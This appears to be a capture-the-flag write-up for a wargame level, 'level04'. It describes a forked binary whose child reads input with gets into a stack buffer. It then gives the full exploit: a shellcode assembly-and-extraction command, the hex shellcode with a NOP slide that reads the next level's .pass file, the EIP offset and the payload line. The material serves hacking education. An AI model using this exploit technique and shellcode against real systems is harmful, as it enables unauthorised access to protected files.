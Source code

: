 # level04

This program forks itself:
- The child calls `gets` on a stack buffer (so obvious buffer overflow attack vector)
- Meanwhile the parent watches the child and kills it as soon as a syscall is detected

The obvious shellcode to create a reverse shell won't work here, but there are still possibilities.
We created a shellcode that opens, reads, and outputs the .pass file.

The shellcode uses a [JMP CALL POP technique](https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html).
It is fully commented so don't hesitate to read it!

To convert the assembly code into a valid shellcode we use this command:
```sh
nasm -f elf32 shellcode.asm -o shellcode.o && objcopy -O binary -j .text shellcode.o /proc/self/fd/1 | hexdump -ve '"\\\" 1/1 "x%02X"'
```

Then we can put the shellcode with a nopslide in the env like so:
```sh
export SHELLCODE=$(python -c 'print "\x90"*1000 + "\xEB\x26\x31\xC0\xB0\x05\x5B\x31\xC9\x31\xD2\xCD\x80\xC6\x44\x24\x28\x0A\x89\xC3\xB0\x03\x89\xE1\xB2\x29\xCD\x80\xB0\x04\xB3\x01\x89\xE1\xCD\x80\xB0\x01\xCD\x80\xE8\xD5\xFF\xFF\xFF\x2F\x68\x6F\x6D\x65\x2F\x75\x73\x65\x72\x73\x2F\x6C\x65\x76\x65\x6C\x30\x35\x2F\x2E\x70\x61\x73\x73"')
```

Using a cycle and gdb's command `set follow-fork-mode child`, we found out that we need to write 156 bytes to overwrite
EIP in so after finding an address in the middle of the nopslide all we need to do is call `level4` like so:
```sh
python -c 'print "."*156 + "\xff\xff\xd6\xf9"[::-1]' | ./level04
```

And done!
